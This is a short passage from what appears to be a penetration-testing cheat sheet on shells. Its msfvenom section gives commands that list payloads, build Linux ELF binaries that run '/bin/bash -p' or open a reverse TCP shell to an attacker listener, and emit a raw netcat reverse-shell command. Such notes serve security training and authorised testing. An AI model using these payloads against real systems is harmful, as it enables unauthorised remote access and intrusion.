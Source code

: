 # Shell

...

<hr class="sl">

## msfvenom

You can use msfvenom to generate all kinds of reverse shells.

<div class="row row-cols-md-2"><div>

* List payloads

```bash
$ msfvenom --list payloads
# payload opening a meterpreter - see metasploit
$ msfvenom --list payloads | grep meterpreter
```

* **Linux**

```bash
# execute /bin/bash -p
$ msfvenom -p linux/x86/exec CMD="/bin/bash -p" -f elf -o shell.elf
# Generate a .elf opening a reverse shell (TCP)
$ msfvenom -p linux/x64/shell_reverse_tcp LHOST=tun0 LPORT=4444 -f elf -o shell.elf
# Output a command (R=RAW) opening a reverse shell with netcat
# same as "-f raw" (to check)?
$ msfvenom -p cmd/unix/reverse_netcat LHOST=tun0 LPORT=4444 R
```
</div><div>

...
</div></div>